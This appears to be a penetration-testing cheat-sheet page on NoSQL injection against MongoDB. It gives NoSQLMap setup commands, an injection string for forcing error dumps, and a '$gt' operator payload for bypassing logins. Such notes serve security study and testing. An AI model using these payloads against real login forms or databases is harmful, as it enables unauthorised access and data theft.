 # Nosql-Injections

Nosql-databases like MongoDB is becoming more and more common. So this needs to be expanded.

## NoSQLMAP

* **NoSQLMap Examples** You may encounter NoSQL instances like MongoDB in your OSCP journies \(`/cgi-bin/mongo/2.2.3/dbparse.py`\). NoSQLMap can help you to automate NoSQLDatabase enumeration.
* NoSQLMap Installation

  ```text
  git clone https://github.com/codingo/NoSQLMap.git
  cd NoSQLMap/
  ls
  pip install couchdb
  pip install pbkdf2
  pip install ipcalc
  python nosqlmap.py
  ```

* Often you can create an exception dump message with MongoDB using a malformed NoSQLQuery such as:

```text
  `a'; return this.a != 'BadData’'; var dummy='!`
```

## Login bypass

Basically change the query to this.

```javascript
{"user":{"$gt": ""},"pass":{"$gt": ""}}
```

[http://blog.websecurify.com/2014/08/hacking-nodejs-and-mongodb.html](http://blog.websecurify.com/2014/08/hacking-nodejs-and-mongodb.html) [http://blog.websecurify.com/2014/08/attacks-nodejs-and-mongodb-part-to.html](http://blog.websecurify.com/2014/08/attacks-nodejs-and-mongodb-part-to.html)

